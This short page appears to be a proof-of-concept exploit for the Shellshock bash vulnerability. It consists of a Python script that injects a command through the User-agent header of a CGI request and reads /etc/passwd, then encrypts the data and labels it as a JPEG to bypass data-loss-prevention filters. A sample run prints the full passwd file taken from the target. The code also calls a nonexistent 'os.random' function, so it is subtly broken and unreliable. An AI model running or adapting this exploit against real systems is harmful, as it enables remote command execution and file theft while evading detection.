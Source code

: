 ``` python
#!/usr/bin/env python

# Bypass DLP by encrypting and saying it's a jpeg.

import binascii
import os
import requests
import subprocess
import sys

iv = binascii.b2a_hex(os.random(16))
kx = binascii.b2a_hex(os.random(16))

cmd = "/usr/bin/openssl aes-256-cbc -a -salt -iv " + iv + " -K " + kx + " \
    -in /etc/passwd"

headers = {'User-agent': '() { foo; }; \
           echo Content-type:image/jpeg;echo ;echo;' + cmd}

req = requests.get(sys.argv[1], headers=headers)

cmd = ["/usr/bin/openssl", "aes-256-cbc", "-a", "-d", "-iv", iv, "-K", kx]
proc = subprocess.Popen(cmd, stdin=subprocess.PIPE)
proc.communicate(req.text.strip())
```

Gives us...

```shell
$ ./shellshock_egress http://192.168.0.1/poc.cgi
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:103::/var/spool/exim4:/bin/false
statd:x:102:65534::/var/lib/nfs:/bin/false
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:104:106:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:105:109::/var/run/dbus:/bin/false
```

